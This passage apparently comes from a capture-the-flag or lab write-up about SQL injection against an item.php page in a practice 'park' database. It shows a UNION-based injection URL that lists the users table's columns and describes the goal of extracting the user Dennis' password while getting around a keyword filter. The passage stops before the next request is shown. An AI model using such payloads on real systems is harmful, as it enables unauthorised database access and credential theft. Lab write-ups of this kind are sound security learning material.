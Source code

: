 This gives us the following URL to try:\
\- /item.php?id=100 UNION select NULL, NULL, NULL, group\_concat(column\_name), NULL FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA = "park" AND TABLE\_NAME = "users"

![](<../.gitbook/assets/sqli user table.PNG>)

So now we have columns id, username, password

**Get Dennis' password from User table**\
The SQL command we are looking to perform is:

```
select password from users where username = "dennis"
```

However, we know from our enumeration that "username" is not allowed. My first thought was to check how many passwords there are before trying to bypass this filter so I used the following request to get all the passwords:
